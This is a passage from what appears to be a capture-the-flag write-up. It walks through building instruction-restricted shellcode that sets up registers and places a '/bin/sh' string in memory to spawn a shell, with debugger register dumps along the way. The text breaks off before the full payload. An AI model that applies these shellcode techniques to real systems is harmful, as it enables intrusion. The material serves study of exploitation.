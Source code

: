 ```css
 RAX  0x0
 RBX  0x559a001002f0 (__libc_csu_init) ◂— endbr64
 RCX  0x7ffa5ba16603 (write+19) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x0
```

- Now our registers will lools like this

#### Craft RSI = 0x0
 
```css
xchg   esi, eax
```
- rax is 0 so let's exchange it with esi

```css
*RAX  0x3edfa743
 RBX  0x56153b17f2f0 (__libc_csu_init) ◂— endbr64
 RCX  0x7fe53ed19603 (write+19) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7fe53edfc670 (_IO_stdfile_1_lock) ◂— 0x0
*RSI  0x0
```
- Now our registers will lools like this
- rsi, rdx done. Now for the big part


### Craft RDI = '/bin/sh' pointer

- First we don't have `/bin/sh` in the binary
- Also we don't know it's position in libc, coz we don't have any libc leaks
- So we need to move that manual to the memory and make a pointer to point that string
- Here the problem is we are limited to instructions
- We can't use instructions like  `mov <rax or any register name starts with r>, <some value>`
- We can only use some `inc, dec, sub`  instructions
- Also we can't move the whole 8 bytes to a register since we can't use any full register
- So we need to move this 7 byte string byte by byte into some place
- And finally push that to stack and make a pointer to it by `pop rdi`
- Before that we need to make rax again to 0x0

```css
xchg eax,r14d
```
- Since **r14** has 0x0 we can exchange that with **eax**


> Useful instruction

```css
sub    eax, <some value>
```

- By using that we can subtract some value in eax register
- But we're limited to multiples of 5
- So let's use another instruction called

![](https://i.imgur.com/OCd8wlk.png)
